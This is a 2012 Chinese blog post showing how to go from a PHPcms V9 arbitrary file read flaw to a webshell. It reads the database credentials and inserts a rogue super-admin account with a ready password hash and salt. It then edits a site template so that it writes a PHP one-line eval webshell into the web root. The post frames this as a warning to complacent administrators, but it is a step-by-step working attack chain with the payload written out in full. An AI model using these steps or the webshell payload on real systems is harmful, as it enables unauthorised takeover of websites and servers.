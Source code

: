 title: "PHPcmsV9任意文件读取漏洞拿Shell"
id: 171
date: 2012-07-29 02:33:37
tags: 
- phpcmsv9漏洞
- webshell
categories: 
- 原创作品
- 技术文章
- 最新漏洞
---

前几天爆的phpcmsV9任意文件读取漏洞，其实危害是很大的，但往往还是一些管理员

觉得漏洞并不可怕，听到某人说道，即使是被人读取了数据库数据也没用，为啥，因为

他权限数据库权限单库单用户，并且v9制作前台cms发布里面就只有管理员账户并且不发

分子拿到密码也没用因为破解不了他的密码，其实我想说你丫的把黑阔当傻子？你能想到

的别人想不到，废话就不说了，看着就是了~~

本地搭建的phpcsmV9.现用漏洞或者工具读取数据库信息：

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_1.jpg "v9shell_1")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_1.jpg)

<!--more-->
数据库phpcmsv9用户名：root  密码为空

我们用一款数据库管理工具连接数据库我用的是navicat

打开工具点击连接-mysql配置数据库信息如图：

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_2.jpg "v9shell_2")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_2.jpg)

打开phpcmsV9数据库并且找到admin表，向表中添加一条数据，因为我们没法破解他的密码那么咱们就自己

添加一个用户以便能够登录后台操作：

>Username:admin password: 748b4dfa3a7159c1eb1baa46f222f9b8 roleid:1 encrypt:C6mB9p

注意这几项必须添负责登录不了的。应为这条记录的意思是添加用户名为admin,密码为：creturn.com的超级管理员

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_3.jpg "v9shell_3")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_3.jpg)

>后台登录地址：localhost/index.php?m=admin

>用户名：admin 密码：creturn.com

登录后台后我们找到界面-》模版风格-》选择默认模版点击详情列表

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_41-1024x163.jpg "v9shell_4")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_41.jpg)

然后点击里面的search目录下面的index.html右侧的编辑

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_5.jpg "v9shell_5")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_5.jpg)

修改其模版为：

```php
<?php $shell = '<?php @eval($_POST[cmd]);';file_put_contents('shell.php',$shell);?>
```

提交保存

然后访问：localhost/index.php?m=search

会在根目录生成一个shell.php的一句话，我们连接看看

[![](http://asset.creturn.com/asset/uploads/2012/07/v9shell_6.jpg "v9shell_6")](http://asset.creturn.com/asset/uploads/2012/07/v9shell_6.jpg)

可以看到已经拿到shell，记得把修改的模版改回去。

至此，如果还有管理员认为这个漏洞是鸡肋，那我就无话可说了！

最近发现有人那我写的Exp改作者名和版权信息后发到自己的站上，等我有时间了会光顾你们的！
